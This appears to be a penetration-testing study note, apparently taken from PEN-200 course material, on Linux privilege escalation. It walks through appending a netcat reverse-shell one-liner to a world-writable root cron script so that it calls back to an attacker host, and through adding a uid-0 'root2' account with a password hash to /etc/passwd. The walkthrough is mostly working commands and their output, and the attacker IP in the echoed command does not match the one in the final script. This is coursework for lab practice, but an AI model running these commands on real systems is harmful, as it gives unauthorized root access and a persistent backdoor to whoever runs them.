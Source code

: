 
### Abusing Cron Jobs

Inspecting the cron log file

`grep "CRON" /var/log/syslog`

Result:
```
Aug 25 04:57:01 debian-privesc CRON[918]:  (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
```

user_backups.sh runs every minute as root

View this script 

`cat /home/joe/.scripts/user_backups.sh`

Result:
```
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/
```

Show permissions of this script 

`ls -lah /home/joe/.scripts/user_backups.sh`

Result:
```
-rwxrwxrw- 1 root root 49 Aug 25 05:12 /home/joe/.scripts/user_backups.sh
```

Every local user can write to this file.

Inserting a reverse shell one-liner in user_backups.sh

`cd .scripts`

`echo >> user_backups.sh`

````
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> user_backups.sh
````

`cat user_backups.sh`

Final script 

```
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```

Set up nc listener and catch root shell

`nc -lnvp 1234`

```
# id
uid=0(root) gid=0(root) groups=0(root)
```

Reverse shell cheatsheet: 
 [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/linux-privilege-escalation-45403/insecure-file-permissions-45458/abusing-cron-jobs-45404#fnref-local_id_217-3)

### Abusing Password Authentication

If we can write into **/etc/passwd**, we can effectively set an arbitrary password for any account

#### Scenario
Add new superuser to `/etc/passwd` using #openssl 

Encrypt password:

`openssl passwd w00t`

Result:
````
Fdzt.eqJQ4s0g
````

Write to `/etc/passwd`

```
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Switch to new user 

`su root2`

Verify root

`id`

```
uid=0(root) gid=0(root) groups=0(root)
```


